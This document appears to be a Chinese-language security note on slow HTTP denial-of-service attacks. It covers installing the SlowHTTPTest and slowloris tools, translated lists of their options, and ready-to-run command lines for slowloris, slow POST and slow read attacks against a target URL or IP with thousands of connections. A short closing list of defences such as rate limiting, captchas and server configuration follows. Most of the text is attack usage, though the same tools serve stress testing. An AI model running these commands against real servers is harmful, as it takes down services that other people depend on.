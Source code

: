 ## 利用工具
### SlowHTTPTest
[SlowHTTPTest地址](https://github.com/shekyan/slowhttptest)

* Centos7下的编译安装

```
yum install gcc.x86_64 gcc-c++.x86_64 openssl-devel.x86_64 -y

yum install automake.noarch autoconf.noarch -y

git clone https://github.com/shekyan/slowhttptest && cd slowhttptest

./configure

autoreconf -ivf

make && make install

# 安装完成
```

* SlowHTTPTest使用说明

```
-H SlowLoris模式
-B SlowPost模式
-R Range Header模式
-X Slow Read模式

-g 生成统计信息
-o 指定输出文件名
-v 日志等级

-c 建立的连接数，默认为50
-i 在SlowLoris和Slow Post模式中，数据发送的间隔，默认为10
-l 测试维持时间，默认为240
-r 每秒连接个数，默认为50
-s 声明Content-Length header值，默认为4096
-t http verb在请求时使用什么操作，默认为GET
-u 指定目标URL
-x 在SlowLoris和Slow Post模式中，指定发送的最大数据层航都
-y 在Slow Read模式中指定tcp窗口范围上限，默认为32
-f 指定Content-Type Header，默认为application/x-www-form-urlencoded
-m 指定Accept Header，默认为text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5

-d 为所有连接指定代理
-e 为探测连接指定代理
-p 指定等待时间来确认攻击已经成功
```

* 案例

```
# slowloris模式
slowhttptest -c 1000 -H -g -o my_header_stats -i 10 -r 200 -t GET -u URL -x 24 -p 3

# slowpost模式
slowhttptest -c 3000 -B -g -o my_body_stats -i 110 -r 200 -s 8192 -t POST -u URL -x 10 -p 3

# slowread模式
slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u URL -p 3
```


### slowloris
[slowloris](https://github.com/gkbrk/slowloris.git)

* 安装

```
# pip安装
pip3 install slowloris
slowloris example.com

# git下载
git clone https://github.com/gkbrk/slowloris.git && cd slowloris
python3 slowloris.py example.com
```

* slowloris使用说明

```
-p PORT 指定端口，默认80
-s SOCKETS 套接字数量，默认150
-v 增加日志记录
-ua 对每个请求随机化UA参数
--proxy-host PROXY_HOST SocketS5代理主机，默认127.0.0.1
--porxy-port PROXY_PORT SocketS5代理端口，默认8080
--https 对请求使用https

# SocketS5代理支持，需要额外安装PySocks Python模块
pip3 install PySocks
```

* 案例

```
python slowloris.py IP # 攻击http 80端口

python slowloris.py -p 443 --https IP # 攻击https 443端口
```

## 防御
* 判断UA字段（不可靠，可以随意构造绕过）；
* 网页中嵌入JS代码（不可靠，爬虫可以携带浏览器引擎，或者加载JS）；
* 针对IP+Cookie限制访问频率（不可靠，Cookie可以伪造，IP存在代理池问题）；
* 关闭Apache最大连接数等，合理配置中间件，缓解DDoS攻击；
* 页面中添加验证码；
* 合理优化代码，合理使用缓存技术，减少数据库的读写操作；
